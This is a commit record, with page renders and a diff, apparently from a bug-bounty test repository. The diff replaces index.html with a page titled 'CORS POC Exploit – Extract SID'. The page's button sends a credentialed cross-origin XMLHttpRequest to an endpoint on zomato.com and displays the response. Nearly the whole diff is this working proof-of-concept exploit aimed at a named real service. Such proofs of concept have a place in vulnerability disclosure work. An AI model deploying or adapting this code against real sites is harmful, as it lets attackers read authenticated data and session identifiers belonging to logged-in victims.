

Before and after one commit to muhammadfaizan92/subdtest, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-796 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,5 +1,27 @@
+<!DOCTYPE html>
 <html>
 <body>
-<h1> caught </h1>
+<center>
+<h2>CORS POC Exploit</h2>
+<h3>Extract SID</h3>
+
+<div id="demo">
+<button type="button" onclick="cors()">Exploit</button>
+</div>
+
+<script>
+function cors() {
+  var xhttp = new XMLHttpRequest();
+  xhttp.onreadystatechange = function() {
+    if (this.readyState == 4 && this.status == 200) {
+      document.getElementById("demo").innerHTML = alert(this.responseText);
+    }
+  };
+  xhttp.open("GET", "https://www.zomato.com/zpaykit/js/v4/hook.js", true);
+  xhttp.withCredentials = true;
+  xhttp.send();
+}
+</script>
+
 </body>
 </html>
```
